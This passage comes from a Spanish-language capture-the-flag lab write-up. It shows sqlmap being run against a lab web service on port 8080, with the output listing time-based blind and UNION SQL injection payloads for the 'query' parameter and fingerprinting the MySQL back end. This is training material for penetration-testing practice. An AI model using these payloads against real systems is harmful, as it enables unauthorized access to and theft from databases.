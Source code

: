 <img src="/assets/images/THL-writeup-base/Captura14.png">
</p>

Estamos dentro.

<br>

<h2 id="SQLMAP">Automatizando Inyecciones SQL con SQLMAP</h2>

Comprobemos con **SQLMAP** si la página web del **puerto 8080** es vulnerable a **Inyecciones SQL**:
```bash
sqlmap -u 'http://192.168.100.70:8080/' --batch --forms
...
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: query (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: query=Ecyj' AND (SELECT 4462 FROM (SELECT(SLEEP(5)))NgVh) AND 'zbXD'='zbXD

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: query=Ecyj' UNION ALL SELECT NULL,NULL,CONCAT(0x716b6a7071,0x4977646d4665774a4249684e4d737851494f436b6b756543614855784e6e6757536c70694773596f,0x71707a7071),NULL,NULL-- -
---
do you want to exploit this SQL injection? [Y/n] Y
[13:21:59] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

